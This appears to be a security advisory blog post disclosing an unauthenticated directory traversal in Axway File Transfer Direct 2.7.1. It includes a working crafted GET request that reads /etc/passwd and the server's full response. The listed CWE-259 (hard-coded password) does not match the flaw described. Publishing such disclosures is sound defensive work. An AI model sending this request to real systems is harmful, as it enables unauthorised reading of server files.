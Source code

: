 ```yaml
---
layout: post
title:  "Directory Traversal in Axway File Transfer Direct"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-259

Vendor: Axway

Product: Axway File Transfer Direct

Version affected:  2.7.1

Axway is a software and services company registered in France with headquarters in Phoenix, Arizona. Established in 2001, Axway serves more than 11,000 organisations in 100 countries, with offices around the globe. Their award-winning products, solutions and services enable the business-critical transactions required to accelerate performance within and among enterprises - while providing management, security and governance on interactions throughout business networks.

#### Product description:

File Transfer Direct is an ad hoc file exchange solution that brings enterprise-class managed file transfer (MFT) capabilities to familiar email interfaces and web-based clients. File Transfer Direct transparently applies administrator-defined policies while adding the security and audit capabilities required for corporate governance and regulatory compliance.

#### Finding:

The unauthenticated Directory Traversal vulnerability can be exploited by issuing a specially crafted HTTP GET request utilizing a simple bypass, %2e%2e instead of (/),URL encoding.

Example:
{% highlight ruby %}

REQUEST:
GET /h2hdocumentation//%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: a.b.c.d
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
{% endhighlight %}

{% highlight ruby %}

RESPONSE:
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1713
Date: Tue, 23 Jan 2018 03:42:11 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
clam:x:100:102:Clam Anti Virus Checker:/var/clamav:/sbin/nologin
nocpulse:x:101:103:NOCpulse user:/var/lib/nocpulse:/bin/bash
hpsmh:x:500:500::/opt/hp/hpsmh:/sbin/nologin
ftd:x:20230:20000:ftd:/home/ftd:/bin/bash
nrpe:*:20231:20231:nrpe:/home/nrpe:/sbin/nologin
tss:x:102:105:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
stunnel:x:20009:20011:user stunnel:/dev/null:/bin/false
_lldpd:x:103:501::/home/_lldpd:/bin/bash
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Path_Traversal
2. https://www.axway.com/
3. Axway File Transfer Direct - http://infosightsol.com/wordpress/wp-content/uploads/2012/11/Axway_Datasheet_File_Transfer_Direct_EN.pdf
